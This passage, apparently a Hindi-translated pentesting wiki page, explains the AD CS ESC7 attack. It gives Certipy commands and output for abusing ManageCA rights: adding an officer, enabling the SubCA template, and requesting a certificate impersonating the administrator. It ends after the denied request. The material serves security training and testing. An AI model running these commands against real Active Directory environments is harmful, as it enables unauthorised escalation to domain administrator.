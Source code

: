 #### स्पष्टीकरण

{% hint style="warning" %}
**पिछले हमले** में **`Manage CA`** अनुमतियों का उपयोग किया गया था ताकि **EDITF\_ATTRIBUTESUBJECTALTNAME2** ध्वज को सक्रिय किया जा सके और **ESC6 हमला** किया जा सके, लेकिन यह कोई प्रभाव नहीं डालेगा जब तक CA सेवा (`CertSvc`) को पुनरारंभ नहीं किया जाता। जब एक उपयोगकर्ता के पास `Manage CA` एक्सेस अधिकार होते हैं, तो उपयोगकर्ता को सेवा को पुनरारंभ करने की भी अनुमति होती है। हालांकि, यह यह नहीं मतलब है कि उपयोगकर्ता सेवा को दूरस्थ से पुनरारंभ कर सकता है। इसके अतिरिक्त, अधिकांश पैच किए गए वातावरणों में मई 2022 सुरक्षा अपडेट के कारण **ESC6** अक्सर डिफ़ॉल्ट रूप से काम नहीं कर सकता।
{% endhint %}

इसलिए, यहां एक और हमला प्रस्तुत किया जा रहा है।

आवश्यकताएं:

* केवल **`ManageCA` अनुमति**
* **`Manage Certificates`** अनुमति (को **`ManageCA`** से प्रदान किया जा सकता है)
* प्रमाणपत्र टेम्पलेट **`SubCA`** को **सक्रिय** होना चाहिए (को **`ManageCA`** से सक्रिय किया जा सकता है)

यह तकनीक उस तथ्य पर निर्भर करती है कि उपयोगकर्ता जिनके पास `Manage CA` _और_ `Manage Certificates` एक्सेस अधिकार हैं, वे **विफल प्रमाणपत्र अनुरोध** जारी कर सकते हैं। **`SubCA`** प्रमाणपत्र टेम्पलेट **ESC1 के लिए वंशावश** है, लेकिन **केवल प्रशासक** टेम्पलेट में नामांकित हो सकते हैं। इसलिए, एक **उपयोगकर्ता** **`SubCA`** में नामांकित होने का **अनुरोध** कर सकता है - जिसे **इनकार** किया जाएगा - लेकिन **फिर प्रबंधक द्वारा जारी** किया जाएगा।

#### दुरुपयोग

आप अपने आप को **`Manage Certificates`** एक्सेस अधिकार प्रदान कर सकते हैं अपने उपयोगकर्ता को एक नए अधिकारी के रूप में जोड़कर।
```bash
certipy ca -ca 'corp-DC-CA' -add-officer john -username john@corp.local -password Passw0rd
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'John' on 'corp-DC-CA'
```
**`SubCA`** टेम्पलेट को `-enable-template` पैरामीटर के साथ CA पर सक्रिय किया जा सकता है। डिफ़ॉल्ट रूप से, `SubCA` टेम्पलेट सक्रिय है।
```bash
# List templates
certipy ca -username john@corp.local -password Passw0rd! -target-ip ca.corp.local -ca 'corp-CA' -enable-template 'SubCA'
## If SubCA is not there, you need to enable it

# Enable SubCA
certipy ca -ca 'corp-DC-CA' -enable-template SubCA -username john@corp.local -password Passw0rd
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'corp-DC-CA'
```
यदि हम इस हमले के लिए पूर्वापेक्षाएं पूरी कर चुके हैं, तो हम **`SubCA` टेम्प्लेट पर आधारित प्रमाणपत्र का अनुरोध करके** शुरू कर सकते हैं।

**यह अनुरोध अस्वीकृत किया जाएगा**, लेकिन हम निजी कुंजी को सहेजेंगे और अनुरोध आईडी नोट करेंगे।
```bash
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template SubCA -upn administrator@corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 785
Would you like to save the private key? (y/N) y
[*] Saved private key to 785.key
[-] Failed to request certificate
```